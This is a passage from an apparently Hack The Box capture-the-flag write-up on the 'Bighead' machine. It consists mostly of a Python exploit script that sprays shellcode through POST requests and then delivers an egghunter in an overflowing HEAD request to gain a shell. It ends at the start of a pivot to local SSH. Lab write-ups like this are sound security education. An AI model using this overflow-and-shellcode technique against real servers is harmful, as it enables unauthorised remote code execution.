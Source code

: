 ```python
# Generated from !mona egg -t valo
egghunter = '6681caff0f42526a0258cd2e3c055a74efb8' + binascii.hexlify(egg) + '8bfaaf75eaaf75e7ffe7'

# Send the shell code many times so that the gunter has a better chance of finding it
def send_shellcode(host,port,egg,shellcode):
        print '\033[32m [*] Sending Shellcode'
        for i in range(0,4):
                thighhigh = socket.socket(socket.AF_INET,socket.SOCK_STREAM,0)
                thighhigh.connect((host,port))
                thighhigh.send('POST / HTTP/1.1\r\n')
                thighhigh.send('Host: dev.bighead.htb\r\n')
                thighhigh.send('Content-Length: %s\r\n'%len(shellcode))
                thighhigh.send('\r\n')
                thighhigh.send(shellcode+'\r\n')
                thighhigh.send('\r\n')
                print '\033[34m' + '[' + str(i) + '] ' + re.sub(r'\s',' ',thighhigh.recv(12))
                thighhigh.close()
        print '\033[32m [*] Done'

# Send the gunter
def send_egghunter(host,port,egghunter):
        print '\033[32m [*] Sending EggHunter'
        thighhigh = socket.socket(socket.AF_INET,socket.SOCK_STREAM,0)
        thighhigh.connect((host,port))
        thighhigh.settimeout(None)
        thighhigh.send('HEAD /' + ('V'*72) + 'f0125062' + egghunter + ' HTTP/1.1\r\n')
        thighhigh.send('Host: dev.bighead.htb\r\n')
        thighhigh.send('\r\n')
        print '\033[34m' + re.sub(r'\s',' ',thighhigh.recv(12))
        thighhigh.close()
        print '\033[32m [*] Done'

send_shellcode(host,port,egg,shellcode)
send_egghunter(host,port,egghunter)
```

I've tried to explain the code to the best of my ability in comments. This involves a lot of trial and error to find something that worked. When I execute the script, I have to wait a while and try a few times, but I do get a shell.

![](https://storage.googleapis.com/val-roudebush-report-images/htb-pics/bighead/74.png)
![](https://storage.googleapis.com/val-roudebush-report-images/htb-pics/bighead/75.png)

### Local SSH & Stored Credentials, Pivot to `nginx`

I'd love to say "And then I just read the user file and moved on to going for the root flag!", but alas, it is not that simple. Even those I've already used the second most words of any of my reports, we still have a while to go. Once on the box, we can find that port 2020 is open on localhost.

![](https://storage.googleapis.com/val-roudebush-report-images/htb-pics/bighead/76.png)

